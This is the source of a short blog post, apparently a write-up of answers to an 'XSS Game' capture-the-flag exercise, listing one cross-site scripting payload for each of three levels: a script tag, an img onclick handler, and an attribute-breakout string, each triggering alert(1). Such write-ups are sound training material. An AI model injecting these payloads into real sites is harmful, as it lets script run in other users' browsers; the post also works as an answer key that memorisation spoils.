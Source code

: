 ```yaml
---
layout: post
title: 'XSS Game'
permalink: /ctf/xss-game/
---
```


# Level 1
{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

# Level 2
{% highlight html %}
<img onclick="alert(1)">
{% endhighlight %}

# Level 3
{% highlight html %}
...' onclick="alert(1)" >
{% endhighlight %}

